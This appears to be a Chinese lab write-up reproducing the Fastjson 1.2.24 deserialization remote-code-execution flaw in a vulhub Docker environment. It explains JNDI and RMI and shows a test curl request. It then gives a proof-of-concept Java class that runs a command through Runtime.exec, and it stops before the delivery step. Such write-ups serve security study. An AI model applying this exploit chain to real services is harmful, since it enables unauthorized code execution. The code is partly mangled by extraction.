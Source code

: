 目标网站在解析 json 时，未对 json 内容进行验证，直接将 json 解析成 java 对象并执行，这就给了攻击者可乘之机，构造对应的 payload ，让系统执行，然后达到代码执行，甚至命令执行的目的。  
  
**攻击者可以传入一个恶意构造的JSON内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行**  
。  
  
知识科普  
  
**JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。**  
  
**RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。**  
  
**RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。**  
## 漏洞复现  

```
cd vulhub/fastjson/1.2.24-rce
docker-compose up  -d
```

  
访问环境  
  
![image-20230420011047000](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5ZLQ2xJVTw5ZYg2xmVb2OFVW9Q3fdEJTXXdDIXhU9urOIljHHX1c9GA/640?wx_fmt=png&from=appmsg "")  
  
在攻击机模拟json发送post请求  

```
curl http://192.168.1.129:8090/-H&#34;Content-Type: application/json&#34;--data '{&#34;name&#34;:&#34;karsa&#34;, &#34;age&#34;:22}'
```

  
![image-20230420011156121](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5iccMnTNszA3IqRiaLTVcdBFdAJOdOngrAyS5YhHXiaW3lETYbjn8JibvCw/640?wx_fmt=png&from=appmsg "")  
  
验证漏洞存在，接下来去打  
  
首先编辑恶意java代码  

```
// javac TouchFile.java
importjava.lang.Runtime;
importjava.lang.Process;

publicclassTouchFile{
static{
try{
Runtime rt =Runtime.getRuntime();
String[] commands ={&#34;touch&#34;,&#34;/tmp/success&#34;};
Process pc = rt.exec(commands);
            pc.waitFor();
}catch(Exception e){
// do nothing
}
}
}
```
